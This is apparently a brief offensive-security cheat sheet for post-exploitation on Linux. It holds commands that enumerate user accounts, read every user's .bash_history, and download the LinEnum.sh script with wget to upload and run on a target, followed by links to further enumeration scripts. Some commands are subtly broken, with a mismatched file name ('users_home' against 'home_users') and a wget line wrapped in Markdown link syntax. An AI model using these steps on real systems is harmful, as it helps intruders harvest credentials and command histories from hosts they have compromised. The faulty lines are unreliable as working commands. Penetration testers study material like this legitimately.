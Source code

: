 # Post-Exploitation on Linux

## Data Harvesting and Enumeration

### Common users

`awk -F: '{ if($3 >= 1000) print $1}' passwd >> users` 

### Reading bash_history files

Mapping users directories:

`ls /home/ > users_home`

Reading files:

`for user in $(cat home_users); do echo $user; cat /home/$user/.bash_history ; echo -e "=====\n" ;done`

### Using great scripts

**LinEnu.sh**:

`wget [LinEnum.sh](https://raw.githubusercontent.com/kraloveckey/venom/master/penetration-testing/CheatSheets/Linux/pos_xpl/LinEnum.sh)`

#### Upload it to the target and run through terminal

```shell
> chmod +x LinEnum.sh
> ./LinEnum.sh -t
```

#### Done, now pay attention to the output and see if there is anything *interesting*

## OTHERS SCRIPTS

* [LinuxPrivChecker](https://www.securitysift.com/download/linuxprivchecker.py)
* [Linux Exploit Suggester](https://github.com/mzet-/linux-exploit-suggester)
* [High Coffee](https://highon.coffee/downloads/linux-local-enum.sh)